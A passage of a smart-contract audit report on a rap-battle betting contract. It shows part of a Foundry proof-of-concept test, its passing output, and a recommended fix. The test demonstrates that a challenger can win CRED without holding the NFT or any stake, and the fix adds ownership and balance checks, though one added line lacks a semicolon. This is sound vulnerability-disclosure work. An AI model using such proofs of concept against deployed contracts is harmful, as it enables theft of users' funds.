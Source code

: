 ```javascript
        // ...until a valid challanger comes or it loses against challenger2
        assert(cred.balanceOf(defender) == 0);
        assert(oneShot.ownerOf(0) == address(rapBattle));

        // 2nd round, challenger2 enters battle again as challenger of defender
        vm.prank(challenger2);
        vm.warp(4 days + 3); // with this, challenger wins if run on local anvil chain
        vm.recordLogs();
        rapBattle.goOnStageOrBattle(0, credBet);

        // assertions and logs after 2nd round
        Vm.Log[] memory entries_2 = vm.getRecordedLogs();
        winner = address(uint160(uint256(entries_2[0].topics[2])));
        assertEq(winner, challenger2);
        console.log("Winner round 2: ", winner);
        assert(cred.balanceOf(defender) == 0); // defender lost 4 cred
        assert(cred.balanceOf(challenger2) == 4); // challenger2 won 4 cred but did not risk any
    }
```

and test it by executing `forge test --mt test_challengerCanBattleWithoutHavingAnNftOrCredTokens`. 

Output:

```javascript
Running 1 test for test/OneShotTest.t.sol:RapBattleTest
[PASS] test_challengerCanBattleWithoutHavingAnNftOrCredTokens() (gas: 475576)
Logs:
  Winner round 1:  0x4fAD2c378d74800f0Be9eAbE53e1236dE790806F
  Winner round 2:  0xd9230796eAB96bC0dDFB7A732aF97F5b482C5b71

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.50ms
```

## Tools Used
Manual review, Foundry

## Recommendations
Before starting the battle, check that the challenger
- actually has the NFT belonging to the ID he submitted to the battle.Before starting the battle, and
- has enough `CRED` balance to cover the bet.

```diff
    function goOnStageOrBattle(uint256 _tokenId, uint256 _credBet) external {
        if (defender == address(0)) {
            defender = msg.sender;
            defenderBet = _credBet;
            defenderTokenId = _tokenId;

            emit OnStage(msg.sender, _tokenId, _credBet);

            oneShotNft.transferFrom(msg.sender, address(this), _tokenId);
            credToken.transferFrom(msg.sender, address(this), _credBet);
        } else {
            // credToken.transferFrom(msg.sender, address(this), _credBet);
+          require(oneShotNft.ownerOf(_tokenId) == msg.sender, "Not the owner of the NFT, or NFT is staked!");
+          require(credToken.balanceOf(msg.sender) >= _credBet, "Not enough CRED balance to cover the bet!")
            _battle(_tokenId, _credBet);
        }
    }
```
